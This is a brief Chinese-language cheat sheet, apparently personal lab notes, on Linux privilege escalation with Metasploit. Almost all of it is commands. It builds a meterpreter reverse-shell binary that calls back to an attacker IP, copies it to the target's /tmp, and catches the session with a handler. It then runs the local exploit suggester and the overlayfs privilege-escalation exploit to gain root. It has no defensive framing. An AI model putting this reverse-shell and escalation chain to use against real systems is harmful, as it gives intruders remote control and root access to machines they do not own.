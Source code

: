 # msf提权
1. 首先攻击机生成反弹shell马
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=11.1.1.130 LPORT=4444 -f elf > p.elf
chmod 777 p.elf
```
2. scp 命令传送至linux
```
scp ./p.elf a@靶机ip:/tmp
```
3. 打开msf并配置
```
use exploit/multi/handler
set payload  linux/x64/meterpreter/reverse_tcp
set lhost 本机ip
run
background
use post/multi/recon/local_exploit_suggester
set session 1
run
```
4. 扫描到的payload一个个尝试
```
use exploit/linux/local/overlayfs_priv_esc
set lhost 本机ip
set session 1
run
```
+ tips

background之后可以通过sessions进行查看多个放置到后台的会话，展示会话
```
sessions
```
切换会话
```
sessions -i (id)
```